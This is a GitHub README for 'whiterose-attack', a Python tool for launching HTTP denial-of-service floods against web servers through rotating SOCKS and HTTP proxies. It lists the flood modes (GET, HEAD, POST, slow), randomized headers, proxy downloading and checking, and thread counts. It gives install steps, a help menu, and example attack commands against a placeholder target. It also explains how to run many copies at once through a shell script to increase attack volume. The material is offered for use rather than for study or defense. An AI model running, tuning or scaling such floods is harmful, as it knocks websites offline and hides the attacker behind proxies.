 # whiterose-attack
# rose-attack ![](https://github.com/whiteroseeee/whiterose-attack/blob/main/rose.png?raw=true)
  A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- [x] Added Support of HTTP proxies
- [x] Added More proxies api to download 

 Info:
- [x] Using Python3
- [x] Added more human-like options
- [x] Http Get/Head/Post/Slow Flood
- [x] Random Http Header/Data
- [x] Socks4/5 Proxies Downloader
- [x] Socks4/5 Proxies Checker
- [x] Customize Cookies
- [x] Customize Post Data 
- [x] Support HTTPS
- [x] Support Socks4/5

## Install

    pip3 install requests pysocks
    git clone https://github.com/whiteroseeee/whiterose-attack.git
    cd rose-attack

## Usage

    python3 rose.py <arguments>

```
===============  rose-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 rose.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 rose.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of rose.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of rose.py

This script basicly just run rose.py multiple times to make it "multi-processing"

First, put this script and rose.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 rose.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 rose.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```
